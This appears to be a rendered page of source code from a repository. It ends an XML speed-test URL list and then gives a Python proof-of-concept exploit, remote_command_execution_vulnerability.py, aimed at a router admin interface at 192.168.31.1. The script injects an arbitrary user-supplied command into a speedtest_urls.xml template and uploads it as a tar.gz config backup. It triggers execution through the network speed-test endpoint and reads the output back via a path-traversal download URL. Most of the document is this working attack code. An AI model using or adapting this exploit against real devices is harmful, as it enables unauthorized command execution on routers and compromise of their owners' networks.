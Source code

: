 ```
		<item uploadurl="http://www.so.com/"/>
		<item uploadurl="http://www.qq.com/"/>
		<item uploadurl="http://www.sohu.com/"/>
		<item uploadurl="http://www.tudou.com/"/>
		<item uploadurl="http://www.360doc.com/"/>
		<item uploadurl="http://www.kankan.com/"/>
		<item uploadurl="http://www.speedtest.cn/"/>
	</class>
</root>
```

> remote_command_execution_vulnerability.py

```
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
	template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
	f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
	# tar.add("cfg_backup.des")
	# tar.add("cfg_backup.mbu")
	tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://192.168.31.1/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://192.168.31.1/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
	print("success, vul")
	print(r3.text)
```
